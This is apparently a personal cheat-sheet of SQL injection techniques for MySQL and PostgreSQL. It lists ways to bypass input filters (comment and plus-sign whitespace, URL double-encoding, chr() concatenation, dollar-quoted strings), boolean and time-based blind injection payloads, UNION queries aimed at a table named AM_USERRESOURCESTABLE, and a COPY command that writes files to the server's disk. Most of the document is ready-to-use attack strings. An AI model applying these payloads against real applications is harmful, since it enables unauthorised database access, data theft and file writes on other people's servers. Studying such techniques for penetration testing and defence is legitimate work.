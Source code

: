 # Bypass filters

## Whitespace

In mysql, we can also avoid using spaces directly to bypass any filters using inline comments `/**/`, e.g. `SELECT/**/1`

In postgresql, we can do the same using `+` characters, e.g. `SELECT+1`

We can sometimes achieve the same using urlencoded characters for spaces, i.e. `%20`, or double-encoded characters, i.e. `%2520`.

## Forbidden characters

We can bypass by encoding/decoding from ASCII as well and concatening them together. _This works for string values in basic DML statements, but not for certain DDL statements._ E.g. 

```sql
select ascii('w'),ascii('0'),ascii('0'),ascii('t');
select chr(119) || chr(48) || chr(48) || chr(116);
```

## Forbidden quotes

Postgres allows quotes to be replaces with a start and end tag instead using a dollar sign `$$` or `$TAG$` syntax.

```sql postgres
SELECT 'w00t';
SELECT $$w00t$$;
SELECT $TAG$w00t$TAG$;
```

# Exfiltration

Create a simple boolean check first to prove that we have a blind injection and how it affects our HTTP responses.

```sql mysql
AAAA') or (SELECT 1)=1%#
AAAA') or (SELECT 1)=0%#
```

We can use a UNION query to extract data directly out of the database, but this requires us to match the data types and columns.

```sql pgsql
select distinct(RESOURCEID)
from AM_USERRESOURCESTABLE
where USERID=1
UNION
select 1
```

Alternatively, we can use a UNION query to infer data using a blind injection.

```sql pgsql
select distinct(RESOURCEID)
from AM_USERRESOURCESTABLE
where USERID=1
UNION
select case when (select 1)=1 then 1 else 0 end
```

Another option is to use a time-based injection using `SLEEP 1` (mysql) or `pg_sleep(1)` (postgresql) to detect whether a code branch is evaluated or not by checking the execution time of requests.

# Write to disk

```sql postgresql
COPY temptable TO 'C:\\file';
```

## Other

Use temporary tables in postgress:

```sql
CREATE TEMP TABLE temptable (mycol TEXT);
INSERT INTO temptable(mycol) VALUES ('w00t');
SELECT * FROM temptable;
```